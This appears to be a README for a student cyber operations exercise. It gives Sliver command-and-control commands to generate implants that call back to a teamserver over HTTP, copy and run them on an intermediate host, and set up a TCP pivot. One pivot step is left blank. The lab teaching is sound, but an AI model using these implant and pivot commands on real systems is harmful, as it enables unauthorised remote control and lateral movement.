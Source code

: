 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`
Copy over to Intermediate server: `scp [Implant Name] Intermediate@[IP of Intermediate Server]:/home/Intermediate/Documents`
Run Implant: `./[Implant Name] &`
View sessions: `sessions`
Use the Implant: `use [session number]`
Create a pivot through that implant: 
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port]`
